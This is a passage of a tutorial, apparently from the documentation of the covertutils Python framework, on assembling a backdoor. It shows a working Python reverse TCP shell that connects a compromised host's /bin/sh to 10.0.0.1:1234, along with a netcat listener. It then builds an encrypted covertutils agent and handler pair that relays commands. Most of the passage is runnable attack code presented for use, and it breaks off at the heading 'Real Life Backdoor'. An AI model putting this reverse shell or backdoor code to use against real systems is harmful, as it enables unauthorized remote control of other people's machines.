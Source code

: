 Assembling a Backdoor **from Scratch** - *The Tutorial*
=======================================================




For Starters - Without `covertutils`
------------------------------------


The simplest possible reverse TCP shell in `Python` is the one below:

Agent
+++++

.. code:: python

	import socket,subprocess,os
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"]);

Source is the everlasting PentestMonkey_ .

.. _PentestMonkey : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


When these commands run on the compromised host a reverse TCP connection spawns towards `10.0.0.1:1234`. The compromised host then maps all input and output of this TCP connection to a process, started by the ``/bin/sh`` binary.

So the other side of the TCP connection directly interacts with the remote process (which happens to be `a shell`).
But I bet that you know all that.



*So this code snippet above is the `Agent`. Moving on...



Handler
+++++++

.. code:: bash

	$ nc -nlvp 1234

The `Handler` just needs to accept the TCP connection. Sending any data through that connection will result into running them in the remote `shell` process.


So, the ingredients of this backdoor are the following:

 - `Agent`: The Python code
 - `Handler` : The ``netcat`` bind listen command
 - `Communication Channel` : TCP connection
 - `Commands` : `plaintext` shell commands and responses come and go


Main Course - With `covertutils`
--------------------------------


Let's remake a reverse TCP shell, but that time using `covertutils`.

Agent
+++++



Orchestration Step
^^^^^^^^^^^^^^^^^^

First we are gonna need an ``Orchestrator`` object. This will password-protect our communication, providing us fixed-size byte arrays. Those bytes can be transmitted in any way, plus recognized amongst random data.
In our case we will send them over through a plain TCP connection.

.. code:: python

	from covertutils.orchestration import SimpleOrchestrator

	orch_obj = SimpleOrchestrator(
		"Our passphrase can be anything! &^&%{}",
		out_length = 20,
		in_length = 20,
		)


Done. Now we are sure that all bytes arrays leaving our side will have a fixed length of 20 bytes (even if we send a plain ``whoami`` command which consists of 6 bytes). This is in case we need to fit them somewhere where a fixed bytelength is needed.

We also have to be sure that every byte array arriving to our side is also of 20 bytes exactly.

Finally, the arrays are encrypto-scrambled using derivatives of our `passphrase`, so they will look gibberish to anyone that doesn't have that `passphrase`.

Communication Channel Step
^^^^^^^^^^^^^^^^^^^^^^^^^^

Then, we have to provide wrappers for the `Communication Channel`. TCP that is. So, making a ``send( data )`` and a ``recv()`` blocking function will be dead simple:

.. code:: python

	import socket
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))

	def send( data ) :
		s.send( data )

	def recv() :
		return s.recv(4096)	# This will automatically block as socket.recv() is a blocking method


All set. Special needs on data that will go through the wire can be coded in those functions!
For example, if we need all data to travel in ``base64``, then we create the ``send( data )`` and ``recv()`` as below:

.. code:: python

	import codecs

	def send( data ) :
		s.send( codecs.encode( data, 'base64') )	# Base64 will travel

	def recv() :
		data = s.recv(4096)
		return codecs.decode( data, 'base64')	# Raw bytes will be finally received


.. note:: This won't affect the ``SimpleOrchestrator``'s byte length assertion of 20 bytes, as the ``recv()`` function decodes the data to the original byte length.


Feature Step
^^^^^^^^^^^^

Now, that `Data Orchestration` and `Communication Channel` are all set, we need to define the features of this backdoor!

So, let's make some cool stuff using the ``BaseHandler`` first !



.. code:: python

	from covertutils.handlers import BaseHandler

	class MyAgent_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyAgent_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Agent with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )
			print()


		def onMessage( self, stream, message ) :
			print ( "[+] Message arrived!" )
			print ( "{} -> {}".format(stream, message) )
			print ("[>] Sending the received message in reverse order!")
			self.preferred_send( message[::-1] )

		def onChunk( self, stream, message ) :
			print ( "[+] Chunk arrived for stream '{}' !".format(stream) )
			if message :
				print ("[*] Message assembled. onMessage() will be called next!")
			print()

		def onNotRecognised(self) :
			print ("[-] Got some Gibberish")
			print ("Initialized the Orchestrator with wrong passphrase?")
			print()


Those methods will be automatically by called by an internal thread (no need to start it manually), so anything written to their bodies will run when circumstances meet.


Putting it all together!
^^^^^^^^^^^^^^^^^^^^^^^^


.. code :: python

	handler_obj = MyAgent_Handler(recv, send, orch_obj)

	from time import sleep

	while True : sleep(10)


**Done!**

Once this script runs, and the ``MyAgent_Handler`` instantiates, it will listen to the TCP connection (`internal thread magic`) and run the ``on*`` methods automatically.

As all backdoor functionality is implemented in those methods, our **Agent is FINISHED!**


With such agent we can't have a simple ``netcat`` handler though... We need something bigger. Let's jump to it...


Handler
+++++++



Orchestration Step
^^^^^^^^^^^^^^^^^^

Same stuff:

.. code:: python

	from covertutils.orchestration import SimpleOrchestrator

	orch_obj = SimpleOrchestrator(
		"Our passphrase can be anything! &^&%{}",
		out_length = 20,
		in_length = 20,
		reverse = True,	# <-------
		)

Just do not forget the ``reverse = True`` argument to create the `complementary` encryption keys and stuff. This is **all internal**, no need to care.


.. warning :: Oh, and passing a different `passphrase` will result in your backdoor not working. I bet you could see that coming!


Pretty straightforward, moving one...


Communication Channel Step
^^^^^^^^^^^^^^^^^^^^^^^^^^

As we have a Reverse TCP connection, our `Handler` must be a TCP listener.

Pure python socket magic ahead:

.. code ::

	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)	# To make the port immediately available after killing - gimmick
	s.bind( addr )
	s.listen(5)

	client, client_addr = s.accept()



And our wrappers:


.. code ::


	def recv () :		# Create wrappers for networking
		return client.recv( 50 )

	def send( raw ) :		# Create wrappers for networking
		return client.send( raw )



Feature Step
^^^^^^^^^^^^

.. code:: python

	from covertutils.handlers import BaseHandler

	class MyHandler_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyHandler_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Handler with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )
			print()


		def onMessage( self, stream, message ) :
			print ( "[+] Message arrived!" )
			print ( "{} -> {}".format(stream, message) )	# <-------
			print ( "[<] Original Message {}".format(message[::-1]) )

		def onChunk( self, stream, message ) :
			print ( "[+] Chunk arrived for stream '{}' !".format(stream) )
			if message :
				print ("[*] Message assembled. onMessage() will be called next!")
			print()

		def onNotRecognised(self) :
			print ("[-] Got some Gibberish")
			print ("Initialized the Orchestrator with wrong passphrase?")
			print()


So the plan is that for `PoC purposes` the `Agent` will read all messages sent to it and respond with their `reversed` form.
The `Handler` though, will display to the user the reversed form of what it received, finally printing the original message.




Putting it all together!
^^^^^^^^^^^^^^^^^^^^^^^^

.. code :: python

	handler_obj = MyHandler_Handler(recv, send, orch_obj)

This time we need to interact with the ``handler_obj`` instance, in order to actually send stuff to our `Agent`.
For that we can use the :meth:`preferred_send` method of the :class:`BaseHandler` class which honors the `Behavior` of the `Handler` object (more on this at :ref:`behaviors`).




.. code :: python


	try: input = raw_input	# Python 2/3 nonsense
	except NameError: pass	# (fuck my life)

	while True :
		inp = input("~~~> ")
		if inp :
			handler_obj.preferred_send( inp )


Here we got a custom shell that gets user input and sends it over.

There is a vastly better way but I leave it for **Dessert**.


Real Life Backdoor - With `covertutils`
---------------------------------------


Here we will use the goodies that are found in the ``impl`` sub-packages to snip away most of the code while actually adding functionality!


Agent
+++++
